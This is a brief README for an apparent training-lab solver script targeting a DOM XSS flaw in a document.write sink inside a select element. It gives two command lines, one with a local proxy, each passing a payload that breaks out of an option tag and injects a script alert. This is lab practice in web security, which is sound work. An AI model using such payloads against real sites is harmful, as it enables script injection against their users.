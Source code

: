 # How to run script.py

### DOM XSS in document.write sink using source location.search inside a select element

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "London</option><script>alert('XSS')</script><option selected>"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "London</option><script>alert('XSS')</script><option selected>" -p 127.0.0.1:8080`
